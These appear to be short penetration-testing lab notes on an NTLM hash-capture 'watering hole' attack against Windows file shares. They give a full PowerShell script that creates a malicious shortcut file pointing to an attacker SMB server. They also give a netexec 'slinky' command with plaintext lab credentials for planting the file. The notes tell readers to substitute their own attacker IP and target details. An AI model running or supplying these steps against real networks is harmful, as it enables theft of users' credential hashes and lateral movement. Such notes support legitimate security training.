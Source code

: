 Placing a malicious file in a shared folder can lead to some great results.

We can use elevated powershell to do this:

![[Pasted image 20240829115125.png]]

Text to copy-paste from:

```
$objShell = New-Object -ComObject WScript.shell 
$lnk = $objShell.CreateShortcut("C:\test.lnk") 
$lnk.TargetPath = "\\192.168.138.149\@test.png" 
$lnk.WindowStyle = 1 $lnk.IconLocation = "%windir%\system32\shell32.dll, 3" $lnk.Description = "Test" 
$lnk.HotKey = "Ctrl+Alt+T" 
$lnk.Save()
```

What we're doing is we are taking this and we're generating a file and that is getting placed in a file share. And what happens is if responder is up, and that file is triggered, we can capture a hash. Its a watering hole attack.

![[Pasted image 20240829115447.png]]

You can also use a tool called netexec, which is a sister to crackmapexec and you can run this command in the /opt/NetExec folder:

```
netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149
```

Just replace the IP, username, password, DC with yours. The server IP is your attacker IP address. Thats all :)